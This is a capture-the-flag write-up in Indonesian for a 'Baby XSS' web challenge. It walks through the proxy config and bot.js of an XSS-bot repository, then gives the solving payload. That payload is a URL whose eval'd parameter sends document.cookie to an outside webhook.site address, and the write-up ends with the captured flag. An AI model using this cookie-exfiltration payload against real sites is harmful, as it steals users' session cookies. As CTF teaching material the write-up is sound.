




#  Baby XSS

#Desc
> Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya:
> https://github.com/dimasma0305/CTF-XSS-BOT/
> Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

## About the Challenge
Diberikan sebuah url website yaitu `http://ctf.gemastik.id:9020/`

## How to solve?
Ini adalah tampilan websitenya.



Pada laman web tidak tampak kasat mata apapun content nya. Tetapi ketika kita page source terdapat javascript yang mungkin akan membantu kita



Pada script ini menerima input parameter x dengan GET request method. Oke artinya soal memberikan kita opetunjuk untuk send url berisikan payload xss karena ada eval func disana. 
Mari kita lihat proxy.conf pada repo github yang diberikan.

```
server {
    listen 80;
    absolute_redirect off;

    location /report/ {
        proxy_pass http://bot:3000/;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location / {
        root /var/www/html/;
        index index.html;
        try_files $uri $uri/ =404;
    }
}
```

Pada file proxy.conf diketahui terdapat route / sebagai home index dan untuk memanggil bot kita sertakan route /report/.
```
//bot.js
...snippet...
bot: async (urlToVisit) => {
    const context = await getContext()
    try {
        const page = await context.newPage();
        await context.addCookies([{
            name: "flag",
            httpOnly: false,
            value: CONFIG.APPFLAG,
            url: CONFIG.APPURL
        }]);

        console.log(`bot visiting ${urlToVisit}`);
        await page.goto(urlToVisit, {
            waitUntil: 'load',
            timeout: 10 * 1000
        });
        await sleep(15000);
...snippet...
```

Kita coba cek bot.js disini kita tahu bahwa bot.js akan menerima beberapa parameter yang sudah ditetapkan.

```
//bot.js
...snippet...
const CONFIG = {
    APPNAME: process.env['APPNAME'] || "Admin",
    APPURL: process.env['APPURL'] || "http://172.17.0.1",
    APPURLREGEX: process.env['APPURLREGEX'] || "^.*$",
    APPFLAG: process.env['APPFLAG'] || "dev{flag}",
    APPLIMITTIME: Number(process.env['APPLIMITTIME'] || "60"),
    APPLIMIT: Number(process.env['APPLIMIT'] || "5"),
    APPEXTENSIONS: (() => {
...snippet...
```
```
//docker-compose.yml
...snippet...
    environment:
      APPNAME: Admin
      APPURL: http://proxy/
      APPURLREGEX: ^http(|s)://.*$
      APPFLAG: dev{flag}
      APPLIMIT: 2
      APPLIMITTIME: 60
      USE_PROXY: 1
      DISPLAY: ${DISPLAY}
    networks:
...snippet...
```
Langsung saja kita berikan payloadnya
```
http://proxy/?x=new%20Image().src=%22https://webhook.site/xxx/?flag=%22%2Bdocument.cookie
```




Dan kita dapatkan flagnya.

```
gemastik{s3lamat_anda_m3ndap4tkan_XSS}
```
